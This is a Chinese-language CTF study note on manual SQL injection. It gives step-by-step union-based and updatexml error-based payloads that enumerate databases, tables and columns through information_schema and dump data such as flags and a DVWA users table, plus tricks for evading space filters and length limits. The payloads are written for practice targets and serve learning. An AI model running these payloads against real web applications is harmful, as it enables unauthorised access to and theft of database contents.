```yaml
---
title: CTF SQLI
toc: true
date: 2021-04-25 17:12:07
tags: CTF
categories: [100 Cyber security, 120 CTF, 121 Web ]
---
```


### 手注流程
1. 页面里有一个POST表单，测试会不会有注入漏洞
    POST里
    id=1'和id=1'#
    id=1' and 1=2#和id=1' and 1=1#
    前一个不回显后一个回显，那么说明存在注入。
1. 判断字段数：有四个字段
    id=1' order by 4#
1. 判断回显位：
    id=1' union select 1,2,3,4# 有正常回显
    id=1' union select 1,2,3# 无回显，证明该数据库在第四位，查询该数据库名

1. id=0' union select 1,2,3,database()# 查到表名为skctf，继续查数据表（tables）名
1. id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='skctf'#
1. id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='fl4g'#
1. 查询数据：
    id=0' union select 1,2,3,skctf_flag from fl4g#
    得到flag。

### 手注变种：报错注入
https://www.cnblogs.com/c1047509362/p/12806297.html
1. `1'or(updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1))='1` 爆出数据库
1. `1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))，0x7e),1))='1` 爆当前数据库表信息
1. `1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_schema=wp_links)and(table_name='users')),0x7e),1))='1` 爆user表字段信息
1. `1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users)),1) #` 爆数据库内容


### 注入各种问题处理方法
1. 提示输出信息超过一行：使用group_concat,eg:3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1
1. 字符串超过group_concat限制，使用limit 0,1单独输出，limit 0,1 表示输出第一个数据。 0表示输出的起始位置，1表示跨度为1（即输出几个数据，1表示输出一个，2就表示输出两个）。
ref：https://blog.csdn.net/forwardss/article/details/104682924
1. 替代空格：
    * 使用括号，eg：`3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1`
    * 使用内联注释：`/**/`
1. 报错注入，返回值XPATH syntax error有长度限制，为32bytes。

### 其它资源
1. sqlmap源码payload构成：https://www.anquanke.com/post/id/188173#h2-3
1. https://cloud.tencent.com/developer/article/1669841
1. https://www.yuque.com/vipkylin/vunko7/svhwwn
